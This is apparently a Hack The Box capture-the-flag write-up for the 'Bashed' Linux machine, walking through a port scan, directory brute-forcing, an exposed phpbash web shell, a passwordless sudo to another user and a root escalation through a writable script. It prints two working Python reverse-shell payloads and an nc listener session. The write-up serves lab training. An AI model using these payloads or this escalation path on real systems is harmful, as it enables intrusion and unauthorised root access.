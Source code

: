 # HTB - Bashed
## OS - Linux

I started with an nmap scan of Bashed (IP address: 10.10.10.68)
```
──╼ $nmap -sC -sV 10.10.10.68
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-20 16:42 PST
Nmap scan report for 10.10.10.68
Host is up (0.092s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.83 seconds
```
Visiting http://10.10.10.68 shows phpbash tool at http://10.10.10.68/single.html. 

That made me try Dirbuster. Here are some results after a few min.

```
Dir found: / - 200
Dir found: /images/ - 200
Dir found: /icons/ - 403
File found: /index.html - 200
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.js - 200
File found: /js/jquery.nicescroll.min.js - 200
File found: /js/jquery.smartmenus.min.js - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/jquery.mousewheel.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/html5.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200

```
Since phpbash.php was missing in the results, I tried again. This time with /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt. I got more results. 

```
Starting OWASP DirBuster 1.0-RC1
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /images/ - 200
File found: /index.html - 200
Dir found: /icons/ - 403
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/jquery.js - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.nicescroll.min.js - 200
File found: /js/jquery.smartmenus.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/jquery.mousewheel.min.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/html5.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200
Dir found: /css/ - 200
File found: /css/carouFredSel.css - 200
File found: /css/clear.css - 200
File found: /css/common.css - 200
File found: /css/font-awesome.min.css - 200
File found: /css/sm-clean.css - 200
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
File found: /dev/phpbash.min.php - 200
File found: /dev/phpbash.php - 200

```

This worked: http://10.10.10.68/dev/phpbash.php

Browsing through this tool, I saw that user arrexel has an account, so I got the flag from /home/arrexel/user.txt.

```
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
arrexel:x:1000:1000:arrexel,,,:/home/arrexel:/bin/bash
scriptmanager:x:1001:1001:,,,:/home/scriptmanager:/bin/bash
www-data@bashed
:/var/www/html/dev# id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@bashed
:/var/www/html/dev# ls /home/arrexel

user.txt
www-data@bashed
:/var/www/html/dev# cat /home/arrexel/user.txt
```

I also see that www-data has sudo permissions to become scriptmanager without any password.

```
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```

To get the root flag, I need a reverse shell, as the connection through this phpbash.php is not persistent. 

Using the Reverse shell cheatsheets, I tried nc but it did not work.

Python shell worked.

```
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And then sudo -u scriptmanager bash.

When I go to / and ls, I see a scripts folder owned by scriptmanager.

```
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Dec 20 17:53 test.txt

```
The python script runs as scriptmanager but saves a test.txt as root. So we edit the python script to start a reverse shell, and we get a root shell. Editing the test.py was a little tricky, but ultimately it worked.

Using vi test.py, here are the contents of test.py
```
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.11",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
scriptmanager@bashed:/scripts$ ls -l
ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 213 Dec 20 18:13 test.py
-rw-r--r-- 1 root          root           12 Dec 20 18:07 test.txt
scriptmanager@bashed:/scripts$ python test.py

```

Once test.py is run, the nc session on 4242 shows a conenction from this host. We see that this is running as root.

```
──╼ $nc -lvnp 4242
listening on [any] 4242 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.68] 55166
/bin/sh: 0: can't access tty; job control turned off
# ls
test.py
test.txt
# id
uid=0(root) gid=0(root) groups=0(root)
# ls /root
root.txt
# cat /root/root.txt

```
